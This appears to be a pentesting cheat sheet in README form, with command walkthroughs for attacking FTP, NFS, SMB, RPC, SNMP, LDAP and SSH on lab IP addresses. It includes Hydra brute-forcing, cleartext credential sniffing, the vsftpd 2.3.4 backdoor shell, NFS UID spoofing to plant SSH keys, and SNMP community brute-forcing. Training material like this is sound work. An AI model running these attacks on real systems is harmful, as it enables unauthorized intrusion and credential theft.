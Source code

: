 🛡️ Network Protocols & Pentesting Guide
📍 Nmap
Nmap (Network Mapper) is a top open-source tool used for network scanning and security auditing.
It can save scan results in multiple formats for later analysis.

📂 FTP (File Transfer Protocol)
FTP is a client-server protocol that transfers files over TCP (Ports 20/21).
It uses:

Command Channel: Controls conversation.

Data Channel: Transfers files.

📋 Penetration Testing on FTP
<details> <summary><strong>Anonymous Login</strong></summary>
bash
Copy
Edit
ftp 192.168.188.131
Name: Anonymous
Password: Anonymous
🎯 Successful login places you inside the FTP server.

</details> <details> <summary><strong>Sniffing FTP Credentials</strong></summary>
Since FTP sends credentials unencrypted, use Wireshark to capture cleartext login info:

bash
Copy
Edit
frame contains "PASS"
Follow TCP stream to view username/password.

</details> <details> <summary><strong>Bruteforce FTP using Hydra</strong></summary>
bash
Copy
Edit
hydra -L user -P pass 192.168.188.131 ftp
hydra -L wordlist.txt -P wordlist.txt 192.168.188.131 ftp
🛠 Hydra supports many protocols beyond FTP too!

</details> <details> <summary><strong>Exploit FTP Backdoor (vsftpd)</strong></summary>
bash
Copy
Edit
sudo nmap -p 21 192.168.188.131 -sV --script ftp-vsftpd-backdoor.nse
Connect manually:

bash
Copy
Edit
nc 192.168.188.131 21
USER yourname:)
PASS yourname
Spawn remote shell:

bash
Copy
Edit
nc 192.168.188.131 6200
whoami
python -c 'import pty; pty.spawn("/bin/bash")'
</details> <details> <summary><strong>Exploiting vsFTPd 2.3.4 with Metasploit</strong></summary>
bash
Copy
Edit
msfconsole
search vsftpd 2.3.4
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.188.131
exploit
Post-Exploitation:

bash
Copy
Edit
python -c 'import pty; pty.spawn("/bin/bash")'
find / -iname user.txt -exec wc {} \;
</details>
📦 NFS (Network File System)
NFS allows remote mounting of filesystems over a network.

<details> <summary><strong>Enumerating NFS Shares</strong></summary>
bash
Copy
Edit
nmap -p 2049 -sV 192.168.188.131
Or:

bash
Copy
Edit
sudo nmap 192.168.188.137 --script nfs-showmount
</details> <details> <summary><strong>Mounting & Exploiting NFS Shares</strong></summary>
Mounting:

bash
Copy
Edit
sudo mount 192.168.188.131:/ /home/kali/Downloads/nfs -nolock
Mounting with specific NFS version:

bash
Copy
Edit
sudo mount -t nfs -o vers=3 192.168.188.137:/home/vulnix /home/kali/Downloads/nfs/home/vulnix -nolock
Create a matching user:

bash
Copy
Edit
sudo groupadd --gid 2008 vulnix_group
sudo useradd --uid 2008 --groups vulnix_group vulnix
Generate SSH keys and push:

bash
Copy
Edit
ssh-keygen -t rsa -b 4096
cat ~/.ssh/id_rsa.pub | sudo -u vulnix tee -a vulnix/.ssh/authorized_keys
Login:

bash
Copy
Edit
ssh vulnix@192.168.188.137
</details>
🗂️ SMB (Server Message Block)
SMB is used for file/printer sharing, operating over port 445.

<details> <summary><strong>Enumerating SMB Shares</strong></summary>
bash
Copy
Edit
nmap -p 445 -sV -sC 192.168.188.131

enum4linux -L -S 192.168.188.131
smbclient -L \\192.168.188.131 -N
smbmap -H 192.168.188.131
</details> <details> <summary><strong>Exploiting SMB Vulnerabilities</strong></summary>
Samba 3.0.20 RCE:

bash
Copy
Edit
searchsploit samba 3.0.20
Anonymous SMB Access:

bash
Copy
Edit
smbclient --no-pass //192.168.188.131/tmp
</details>
🔌 RPC (Remote Procedure Call)
RPC allows running procedures on remote machines.

<details> <summary><strong>Connecting to RPC</strong></summary>
bash
Copy
Edit
rpcclient 192.168.188.131 -U ''
Commands:

bash
Copy
Edit
srvinfo         # Server info
enumdomusers    # Enumerate users
</details>
📡 SNMP (Simple Network Management Protocol)
SNMP allows network device monitoring over UDP 161.

<details> <summary><strong>SNMP Enumeration</strong></summary>
Enumerate:

bash
Copy
Edit
snmpwalk -v1 -c public 192.168.146.156
snmpcheck -t 192.168.146.156
Bruteforce Community Strings:

bash
Copy
Edit
onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt 192.168.146.156
</details>
📚 LDAP (Lightweight Directory Access Protocol)
LDAP manages user and system directories centrally.

<details> <summary><strong>LDAP Enumeration</strong></summary>
bash
Copy
Edit
ldapsearch -x -H ldap://<IP> -b "dc=example,dc=com"
ldapwhoami -x -H ldap://<IP>
nmap -p 389 --script ldap-search <IP>
Metasploit:

bash
Copy
Edit
use auxiliary/gather/ldap_query
set RHOSTS <IP>
run
</details>
🔒 SSH (Secure Shell)
SSH enables encrypted remote login.

<details> <summary><strong>SSH Key Authentication</strong></summary>
Generate keys:

bash
Copy
Edit
ssh-keygen
Push public key to server:

bash
Copy
Edit
cat ~/.ssh/id_rsa.pub | ssh user@server "mkdir -p ~/.ssh && cat >> ~/.ssh/authorized_keys"
Connect:

bash
Copy
Edit
ssh user@server
</details>
🎯 Final Tips
Always analyze Nmap output carefully.

Use scripts and tools (hydra, enum4linux, smbclient, etc.) effectively.

Check for version vulnerabilities (services like SMB, FTP, NFS).
